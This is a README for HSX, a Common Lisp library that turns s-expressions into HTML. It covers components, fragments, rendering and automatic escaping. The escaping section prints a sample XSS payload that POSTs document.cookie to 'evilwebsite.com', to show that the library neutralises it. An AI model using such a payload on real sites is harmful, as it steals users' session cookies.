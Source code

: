 # HSX – Hypertext S-expression

**HSX** is a simple and powerful HTML generation library for Common Lisp, inspired by JSX. It allows you to write HTML using native Lisp syntax.

> 🚧 **BETA NOTICE:**  
> This library is still in early development. APIs may change.  
> See [release notes](https://github.com/skyizwhite/hsx/releases) for details.

## ⚙️ How HSX Works

Every tag or component inside an `(hsx ...)` form is transformed into a Lisp expression of the form:

```lisp
(create-element type props children)
```

For example:

```lisp
(hsx
  (article :class "container"
    (h1 "Title")
    (p "Paragraph")
    (~share-button :service :x))
```
Is internally transformed (by macro expansion) into:

```lisp
(create-element :article
                (list :class "container")
                (list (create-element :h1
                                      (list)
                                      (list "Title"))
                      (create-element :p
                                      (list)
                                      (list "Paragraph"))
                      (create-element #'~share-button
                                      (list :service :x)
                                      (list))))
```

## 🚀 Quick Example

```lisp
(hsx
  (div :id "main" :class "container"
    (h1 "Hello, HSX!")
    (p "This is a simple paragraph.")))
```

Generates:

```html
<div id="main" class="container">
  <h1>Hello, HSX!</h1>
  <p>This is a simple paragraph.</p>
</div>
```

## 📝 Rendering

Use `render-to-string` to convert an HSX structure to a string of HTML:

```lisp
(render-to-string
  (hsx ...))
``` 

## 🔐 Escaping text

All elements automatically escape special characters in content to prevent XSS and HTML injection:

```lisp
(hsx
  (div "<script>fetch('evilwebsite.com', { method: 'POST', body: document.cookie })</script>"))
```
Outputs:

```html
<div>&lt;script&gt;fetch(&#x27;evilwebsite.com&#x27;, { method: &#x27;POST&#x27;, body: document.cookie })&lt;&#x2F;script&gt;</div>
```

Use the special tag `raw!` to inject trusted, unescaped HTML:

```lisp
(hsx
  (article (raw! "HTML text here ..."))
```

## 🧩 Fragments

Use `<>` tag to group multiple sibling elements without wrapping them in a container tag:

```lisp
(hsx
  (<>
    (p "One")
    (p "Two")))
```

Outputs:

```html
<p>One</p>
<p>Two</p>
```

Note: `raw!` tag is a fragment that disables HTML escaping for its children.

## 🧱 Components

Define reusable components using `defcomp` macro. Component names must start with `~`.

*Keyword-style*

```lisp
(defcomp ~card (&key title children)
  (hsx
    (div :class "card"
      (h2 title)
      children)))
```

*Property-list style*

```lisp
(defcomp ~card (&rest props)
  (hsx
    (div :class "card"
      (h2 (getf props :title))
      (getf props :children))))
```

### Usage

```lisp
(hsx
  (~card :title "Hello"
    (p "This is a card.")))
```

Outputs:

```html
<div class="card">
  <h2>Hello</h2>
  <p>This is a card.</p>
</div>
```

## 🧬 Logic and Interpolation

You can freely embed Lisp expressions, conditionals, and loops inside HSX forms:

```lisp
(hsx
  (div
    (if (> (random 10) 5)
        (hsx (p "High!"))
        (hsx (p "Low!")))))
```

Or loop:

```lisp
(hsx
  (ul
    (loop :for item :in todo-list :collect
      (hsx (li item))))))
```

## 📄 License

MIT License

© 2024 Akira Tempaku

© 2018 Bo Yao (original [flute](https://github.com/ailisp/flute) project)
 
